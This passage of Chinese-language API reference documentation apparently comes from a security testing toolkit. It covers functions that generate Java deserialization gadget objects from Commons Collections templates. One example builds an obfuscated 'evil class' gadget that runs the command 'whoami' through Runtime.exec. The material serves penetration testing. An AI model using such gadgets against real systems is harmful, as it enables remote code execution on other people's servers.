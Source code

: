 
#### 定义

`GetCommonsCollectionsK1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK2JavaObject

#### 详细描述
GetCommonsCollectionsK2JavaObject 基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsCollectionsK2JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollectionsK2JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
